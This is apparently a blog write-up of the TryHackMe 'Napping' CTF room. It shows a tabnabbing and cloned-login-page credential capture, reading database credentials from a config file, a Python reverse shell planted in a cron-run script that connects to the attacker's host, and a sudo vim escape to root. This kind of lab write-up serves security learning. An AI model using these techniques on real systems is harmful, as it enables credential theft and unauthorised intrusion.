


# Napping
**Date:** March 19th 2022

**Author:** j.info

**Link:** [**Napping**](https://tryhackme.com/room/nappingis1337) CTF on TryHackMe

**TryHackMe Difficulty Rating:** Medium

<br>


<br>

## Objectives
- user.txt flag
- root.txt flag

<br>

## Initial Enumeration

### Rustscan -> Nmap Scan

`sudo rustscan --range 1-65535 --ulimit 5000 -a 10.10.12.151 -- -sC -sV
`

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.41 ((Ubuntu))
```

<br>

### Gobuster Scan

`gobuster dir -u http://10.10.12.151 -t 100 -r -x php,txt,html -w dir-med.txt`

```bash
/admin                (Status: 403) [Size: 277]
/register.php         (Status: 200) [Size: 1567]
/config.php           (Status: 200) [Size: 1]   
/index.php            (Status: 200) [Size: 1211]
/welcome.php          (Status: 200) [Size: 1211]
/logout.php           (Status: 200) [Size: 1211]
```

<br>

## Website Digging

Visiting the main page:



<br>

I tried using some standard SQLi to bypass the login and wasn't successful. I went ahead and registered a user on the system and then logged in.



<br>

This page allows you to submit a URL that will be reviewed by an admin it says. After you submit a URL another link will appear on the page that you can click and it will take you to the URL you submitted.


<br>

Knowing this we can direct the website to a link on our own server that looks exactly like the login page on the target web server. That way when the admin connects over our server to review our blog maybe they'll be tricked into logging in allowing us to capture their credentials.

I create a file called index.html on my system with the following contents:


```html
<!DOCTYPE html>
<html>
    <body>
        <script>
            window.opener.location='http://<MY IP>:4444/admin/login.php';
        </script>
    </body>
</html>
```

I then create a directory called **admin** and change over to it. Then I **wget** the **admin/login.php** page from the target webserver (note: do not just get /login.php, make sure to get /admin/login.php or upcoming steps will not work):

`wget http://10.10.12.151/admin/login.php`

```bash
HTTP request sent, awaiting response... 200 OK
Length: 1158 (1.1K) [text/html]
Saving to: ‘login.php’

login.php                              100%[===========================================================================>]   1.13K  --.-KB/s    in 0s
```

Now that we have a replica of their login page, and an index.html file on our system that will point to the replica login page we can get our servers up and running.

I start a simple **python HTTP server** on my system (make sure you're in the directory with the index.html file in it when running this command):

`python3 -m http.server`

```bash
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

In another terminal I start up a **php HTTP server** (make sure you're in the directory with the index.html file in it when running this command):

`php -S <MY IP> -t .`

```bash
PHP 8.1.2 Development Server (http://<MY IP>:4444) started
```

And then finally in yet another terminal I start up **tcpdump** to capture the incoming traffic which will hopefully contain the admins login credentials:

`sudo tcpdump -i tun0 -X`

So what will happen here is the admin will connect over to our webserver on port 80 and load the **index.html** file, and that in turn will open the fake login page **admin/login.php** that we're hosting on port 4444.

On their website I submit a blog link pointing to my server:

```
http://<MY IP>/index.html
```

And after waiting for about a minute we have an incoming connection to our port 80 webserver:

```bash
10.10.249.163 - - [19/Mar/2022 15:35:15] "GET /index.html HTTP/1.1" 200 -
```

It looks like it redirected over to our port 4444 webserver with no issues and sent us a POST request after the GET request which looks promising:

```bash
[Sat Mar  19 15:35:15 2022] 10.10.249.163:35096 Accepted
[Sat Mar  19 15:35:15 2022] 10.10.249.163:35096 [200]: GET /admin/login.php
[Sat Mar  19 15:35:15 2022] 10.10.249.163:35096 Closing
[Sat Mar  19 15:35:15 2022] 10.10.249.163:35098 Accepted
[Sat Mar  19 15:35:15 2022] 10.10.249.163:35098 [200]: POST /admin/login.php
[Sat Mar  19 15:35:15 2022] 10.10.249.163:35098 Closing
```

And looking at our **tcpdump** terminal we see a user named **daniel** try to login:

```bash
15:35:15.652557 IP 10.10.249.163.34968 > <MY IP>.4444: Flags [P.], seq 319:364, ack 1, win 491, options [nop,nop,TS val 1200173991 ecr 643580845], length 45
        0x0000:  4500 0061 fb52 4000 3d06 d56a 0a0a d904  E..a.R@.=..j....
        0x0010:  0a06 7fc5 8898 115c e2bd 10a0 d59b e39f  .......\........
        0x0020:  8018 01eb 9ca3 0000 0101 080a 4789 33a7  ............G.3.
        0x0030:  265c 43ad 7573 6572 6e61 6d65 3d64 616e  &\C.username=dan
        0x0040:  6965 6c26 7061 7373 776f 7264 3d43 2534  iel&password=C%4
        0x0050:  3075 6768 746d 336e 6170 7069 6e67 3132  0<REDACTED>
        0x0060:  33                                       3
```

It worked! The "admin" fell for the fake login page and sent us their credentials.

The password is URL encoded so you'll have to decode it for the actual password.

**NOTE:** this tactic is called **tab nabbing** and requires that **target:_blank** to be set like it is on this site. You can [**read more about it in this link**](https://medium.com/r3d-buck3t/target-blank-tabnapping-attack-1d11a3e20f0a).

If you login to the website using his credentials you'll just see a webpage with links waiting to be checked and nothing else interesting.

<br>

## System Access

With that let's see if we can **SSH** back into the box with these credentials.

`ssh daniel@10.10.249.163`

```bash
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-104-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat 19 Mar 2022 07:42:16 PM UTC

  System load:  0.17              Processes:             113
  Usage of /:   56.9% of 8.90GB   Users logged in:       0
  Memory usage: 60%               IPv4 address for eth0: 10.10.249.163
  Swap usage:   0%


10 updates can be applied immediately.
To see these additional updates run: apt list --upgradable

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Wed Mar 16 00:41:48 2022 from 10.0.2.26
daniel@napping:~$
```

We're in!

<br>

## System Enumeration

Taking a look at **/etc/passwd** shows us the following users in addition to root:

```bash
adrian:x:1000:1000:adrian:/home/adrian:/bin/bash
daniel:x:1001:1001::/home/daniel:/bin/bash
```

Looking in the daniel home directory doesn't show us a user.txt flag, so we probably have to laterally move over to user adrian before root.

I check out the webserver directory **/var/www/html** to see if there are any config files laying around with credentials and find the **config.php** file with credentials in it for **adrian**:

`cat config.php`

```php
<?php
/* Database credentials. Assuming you are running MySQL
server with default setting (user 'root' with no password) */
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'adrian');
define('DB_PASSWORD', 'Stop@Napping3!');
define('DB_NAME', 'website');

/* Attempt to connect to MySQL database */
$mysqli = new mysqli(DB_SERVER, DB_USERNAME, DB_PASSWORD, DB_NAME);

// Check connection
if($mysqli === false){
        die("ERROR: Could not connect. " . $mysqli->connect_error);
}
?>
```

I try to switch over to adrian with `su adrian` and login with that password but it does not work.

<br>

## Database Digging

Let's login to the SQL database and see if we can find anything useful there. I connect and explore via the following commands:

`mysql -h localhost -D website -u adrian -p`

`show databases;`

`use website`

`show tables;`

`select * from admin;`

```bash
+----+----------+--------------------------------------------------------------+---------------------+
| id | username | password                                                     | created_at          |
+----+----------+--------------------------------------------------------------+---------------------+
|  1 | daniel   | $2y$10$VcmKVw4Md2MnoczxIs/2R.T5HSUuVXp0YVZybfB0AbX0zaLtntdMm | 2022-03-15 23:48:47 |
+----+----------+--------------------------------------------------------------+---------------------+
```

`select * from links;`

`select * from users;`

```bash
+----+----------+--------------------------------------------------------------+---------------------+
| id | username | password                                                     | created_at          |
+----+----------+--------------------------------------------------------------+---------------------+
|  1 | daniel   | $2y$10$16InkgAlK2bMWw7anjJwBumfFRYiAzu8LNC2app/THhvzS9.Af/zK | 2022-03-15 23:50:34 |
|  2 | testuser | $2y$10$px6DJY3Ldebnx5Do2VMrXeY1zQFmttvirKEAqT9bI84zf1w.bpFxy | 2022-03-19 19:12:00 |
+----+----------+--------------------------------------------------------------+---------------------+
```

I try to crack the hashes for daniel with **hashcat** but don't have any luck.

<br>

## More System Enumeration

I take a look at **id** for daniel and adrian:

```bash
uid=1001(daniel) gid=1001(daniel) groups=1001(daniel),1002(administrators)
uid=1000(adrian) gid=1000(adrian) groups=1000(adrian),1002(administrators)
```

Both are members of the administrators group, which I'm sure will come in useful at some point here.

I check in **/tmp** and **/opt**, if any backups are in **/var/backups**, if there are any **SUID** set files out of the ordinary, file capabilities, and other things and nothing interesting shows up.

I decide to go look in the **adrian home directory** and find the **user.txt** flag there, but we don't have read permissions on it. There is one file that sticks out since it's group is set to **administrators** and both daniel and adrian are a memeber of that:

```bash
-rw-rw-r-- 1 adrian administrators  480 Mar 16 00:02 query.py
```

We also see **.sudo_as_admin_successful** in this directory so we know adrian can run sudo of some kind.

Looking at the **query.py** source code:

```python
from datetime import datetime
import requests

now = datetime.now()

r = requests.get('http://127.0.0.1/')
if r.status_code == 200:
    f = open("site_status.txt","a")
    dt_string = now.strftime("%d/%m/%Y %H:%M:%S")
    f.write("Site is Up: ")
    f.write(dt_string)
    f.write("\n")
    f.close()
else:
    f = open("site_status.txt","a")
    dt_string = now.strftime("%d/%m/%Y %H:%M:%S")
    f.write("Check Out Site: ")
    f.write(dt_string)
    f.write("\n")
    f.close()
```

And the **site_status.txt** file:

```
Site is Up: 19/03/2022 20:40:01
Site is Up: 19/03/2022 20:41:02
```

So this python script runs approximately once a minute to check if the website on localhost is up and running, and if it is logs it to the site_status.txt file.

I'm thinking we can modify this python script and laterally move over to adrian since the script will execute as adrian, and we have the authority to modify it being in the administrators group.

<br>

## Adrian

I set up a nc listener on my system and modify the **query.py** script to a popular python reverse shell:

```python
import os, pty, socket

s = socket.socket()    
s.connect(("MY IP", 4444))
[os.dup2(s.fileno(), f) for f in (0, 1, 2)]
pty.spawn("bash")
```

And sure enough, we get a shell back the next time the script runs:

```bash
istening on [any] 4444 ...
connect to [MY IP] from (UNKNOWN) [10.10.249.163] 47096
adrian@napping:~$
```

With that we can grab the **user.txt** flag.

`wc -c user.txt`

```bash
56 user.txt
```

<br>

## Root

We previously saw the **.sudo_as_admin_successful** file in the adrian home directory, so I run a `sudo -l` and see:

```bash
Matching Defaults entries for adrian on napping:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User adrian may run the following commands on napping:
    (root) NOPASSWD: /usr/bin/vim
```

So we can run **vim** as root, and I happen to know that you can easily break out of vim and retain the escalated privileges. From the [**GTFOBins VIM entry**](https://gtfobins.github.io/gtfobins/vim/):


<br>

I choose the first option and run:

`sudo vim -c ':!/bin/sh'`

```bash
adrian@napping:~$ sudo vim -c ':!/bin/sh'

# whoami
root
```

And we're root! Grabbing the final objective of **root.txt**:

`wc -c /root/root/txt`

```bash
45 root.txt
```

<br>

With that we've finished this CTF! This is a brand new box that was just released and **I was the 9th overall person to finish this box!** Not a first blood or anything, but at my skill level I'm quite happy to have my first **TOP 10 FINISH!**


<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **rustscan** and **gobuster**
- Using **tab nabbing** and **website spoofing** to obtain login credentials
- Finding credentials in a website config file
- Working with a **SQL database**
- Modifying a **python script** to laterally move to the user it ran as
- Exploiting a **sudo vim breakout** to escalate to root

<br>

Many thanks to:
- [**hadrian3689**](https://tryhackme.com/p/hadrian3689) for creating this CTF
- **TryHackMe** for hosting this CTF

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)
